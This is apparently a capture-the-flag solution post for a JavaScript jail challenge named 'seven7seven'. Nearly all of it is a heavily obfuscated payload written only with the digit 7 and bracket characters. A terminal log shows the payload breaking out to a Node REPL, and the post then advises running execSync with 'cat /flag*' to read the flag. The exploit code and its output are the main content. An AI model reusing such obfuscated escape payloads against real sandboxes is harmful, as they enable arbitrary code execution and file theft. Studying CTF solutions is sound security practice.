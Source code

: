 ```
--- 777!+++ 777!@@ -7 +7 @@!-777!+[[[[[[[[[[[7[([][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]=(7777+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+([7]+7[7])[7]+((7==7)+[7==77])[7]+((7==7)+[])[+[]]+(777777+[7==7])[7]+(7[7]+[])[+[]]+(7777+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+((7==7)+[])[+[]]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+(777777+[7==7])[7])][([][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][[]]=([][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][77]=(7777)[((7==7)+[])[+[]]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+(7+[])[[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]][([7]+7[7])[7]+(777777+[7==77])[7]+((+[])[[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]]+[])[+(7==7)+[]+ +(7==7)]+([]+7[7])[7]]](7+7+7+7)[+(7==7)])+(777777+[7==7])[7]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+((7==7)+[])[+[]]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+((7==7)+[])[+[]]+(+(7+([]+7[7])[7]+7+7+7)+[])[7]+[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][77]+([]+7[7])[7])][7+[-7]]=7[[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]][[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][[]]]][7[7+[-7]][[]]=[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]]]][7[7+[-7]][-77]=(777777+[7==7])[7]]][7[7+[-7]][7+7]=((7==7)+[])[+[]]]][7[7+[-7]][-777]=([]+7[7])[7]]][7[7+[-7]][-7]=7[-77]+7[-777]+7[7+7]+(7[7]+[])[+[]]+7[-77]+([7]+7[7])[7]+([]+[][7[[]][7]])[7+(7==7)]]][7[7+[-7]][7-77]=((7==7)+[7==77])[7]]][7[7+[-7]][77]=([][7[-777]+([7]+7[7])[7]+7[7+7]+7[-77]+([77]+7[7])[7]+7[-777]+7[7-77]]()+[])[(7==7)+(7==7)]]][7[7+[-7]][777]=(777777+[7==77])[7]]][7[7+[-7]][77-7]=(7+[][7[[]][7]])[7]]][7[7+[-7]][7+77]=[][7[[]][7]][7[[]][7]]]][7[7+77](7[-7]+7[[]][77]+7[-77]+7[77-7]+(7777+[][7[777]+7[7+7]])[7]+7[-777]+7[7-77]+7[7-77])()[((+[])[7[[]][7]]+[])[+(7==7)+[]+ +(7==7)]+7[777]+([77]+7[7])[7]+([7]+7[7])[7]+7[7+77](7[-7]+7[77]+7[7+7]+7[77-7]+7[777])()(+[]+[])[+[]]+7[77-7]+([7==77]+7[7])[7]+(7[7]+[])[+[]]+((7==77)+[7==77])[7]+7[-777]][7[-77]+7[-777]+7[7+77](7[-7]+7[777]+7[7+7]+7[77-7]+7[77])()((7777+[][7[777]+7[7+7]])[7]+7[-777])[+[]]+(7[7]+[])[+[]]+([77]+7[7])[7]+7[-77]+7[-777]](7[-77]+7[-777]+7[[]][77]+((7==77)+[7==77])[7])[7[7-77]+7[7+7]+7[777]+7[-77]+7[7+7]]()]!
```

here is it working

```
quasar@quasar098:~/<REDACTED>/seven7seven/solve$ cat payload.txt - | node ../handout/index.js
good luck > --- 777!+++ 777!@@ -7 +7 @@!-777!+[[[[[[[[[[[7[([][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]=(7777+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+([7]+7[7])[7]+((7==7)+[7==77])[7]+((7==7)+[])[+[]]+(777777+[7==7])[7]+(7[7]+[])[+[]]+(7777+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+((7==7)+[])[+[]]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+(777777+[7==7])[7])][([][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][[]]=([][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][77]=(7777)[((7==7)+[])[+[]]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+(7+[])[[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]][([7]+7[7])[7]+(777777+[7==77])[7]+((+[])[[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]]+[])[+(7==7)+[]+ +(7==7)]+([]+7[7])[7]]](7+7+7+7)[+(7==7)])+(777777+[7==7])[7]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+((7==7)+[])[+[]]+(7+[][(777777+[7==77])[7]+((7==7)+[])[+[]]])[7]+((7==7)+[])[+[]]+(+(7+([]+7[7])[7]+7+7+7)+[])[7]+[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][77]+([]+7[7])[7])][7+[-7]]=7[[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][7]][[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]][[]]]][7[7+[-7]][[]]=[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]]]][7[7+[-7]][-77]=(777777+[7==7])[7]]][7[7+[-7]][7+7]=((7==7)+[])[+[]]]][7[7+[-7]][-777]=([]+7[7])[7]]][7[7+[-7]][-7]=7[-77]+7[-777]+7[7+7]+(7[7]+[])[+[]]+7[-77]+([7]+7[7])[7]+([]+[][7[[]][7]])[7+(7==7)]]][7[7+[-7]][7-77]=((7==7)+[7==77])[7]]][7[7+[-7]][77]=([][7[-777]+([7]+7[7])[7]+7[7+7]+7[-77]+([77]+7[7])[7]+7[-777]+7[7-77]]()+[])[(7==7)+(7==7)]]][7[7+[-7]][777]=(777777+[7==77])[7]]][7[7+[-7]][77-7]=(7+[][7[[]][7]])[7]]][7[7+[-7]][7+77]=[][7[[]][7]][7[[]][7]]]][7[7+77](7[-7]+7[[]][77]+7[-77]+7[77-7]+(7777+[][7[777]+7[7+7]])[7]+7[-777]+7[7-77]+7[7-77])()[((+[])[7[[]][7]]+[])[+(7==7)+[]+ +(7==7)]+7[777]+([77]+7[7])[7]+([7]+7[7])[7]+7[7+77](7[-7]+7[77]+7[7+7]+7[77-7]+7[777])()(+[]+[])[+[]]+7[77-7]+([7==77]+7[7])[7]+(7[7]+[])[+[]]+((7==77)+[7==77])[7]+7[-777]][7[-77]+7[-777]+7[7+77](7[-7]+7[777]+7[7+7]+7[77-7]+7[77])()((7777+[][7[777]+7[7+7]])[7]+7[-777])[+[]]+(7[7]+[])[+[]]+([77]+7[7])[7]+7[-77]+7[-777]](7[-77]+7[-777]+7[[]][77]+((7==77)+[7==77])[7])[7[7-77]+7[7+7]+7[777]+7[-77]+7[7+7]]()]!
running
> js repl lmao
jjSs  rrll mmaaoo

js repl lmao
   ^^^^

Uncaught SyntaxError: Unexpected identifier 'repl'
> ^C
```

you also only have 4 seconds to input the execSync cat /flag* js code so beware of that i guess
